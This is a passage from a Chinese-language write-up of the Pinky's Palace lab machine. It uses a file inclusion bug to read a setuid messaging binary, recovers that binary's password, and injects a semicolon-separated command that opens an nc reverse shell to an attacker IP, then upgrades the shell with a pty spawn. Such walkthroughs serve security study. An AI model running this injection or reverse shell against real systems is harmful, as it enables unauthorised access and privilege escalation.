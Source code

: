 存在两个文件

```shell
stefano@Pinkys-Palace:~/tools$ cat note.txt 
Pinky made me this program so I can easily send messages to him.
stefano@Pinkys-Palace:~/tools$ file qsub 
qsub: setuid executable, regular file, no read permission
```

`qsub`是一个发信息的可执行文件，没有读权限

```shell
stefano@Pinkys-Palace:~/tools$ ls -la
total 28
drwxr-xr-x 2 stefano stefano   4096 Mar 17  2018 .
drwxr-xr-x 4 stefano stefano   4096 Mar 17  2018 ..
-rw-r--r-- 1 stefano stefano     65 Mar 16  2018 note.txt
-rwsr----x 1 pinky   www-data 13384 Mar 16  2018 qsub
```

www-data组可以读，返回web端

这里有文件包含漏洞

> http://pinkydb:7654/pageegap.php?1337=/home/stefano/tools/qsub

![image-20241120142215403](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241120142215403.png)

wget下来，ida分析

![image-20241120142526086](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241120142526086.png)

密码就是环境变量`TERM`的值

```shell
stefano@Pinkys-Palace:~/tools$ echo $TERM
xterm-256color
stefano@Pinkys-Palace:~/tools$ ./qsub id
[+] Input Password: xterm-256color
[+] Welcome to Question Submit!
```

接着查看最后的`send`函数

![image-20241120142842484](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241120142842484.png)

将发送的信息追加写入txt文件

利用分号执行多条命令即可

```shell
./qsub ';(nc -e /bin/bash 192.168.27.3 1234)'
```

成功反弹shell

> python -c 'import pty; pty.spawn("/bin/bash")'
>
> newgrp切换到默认组

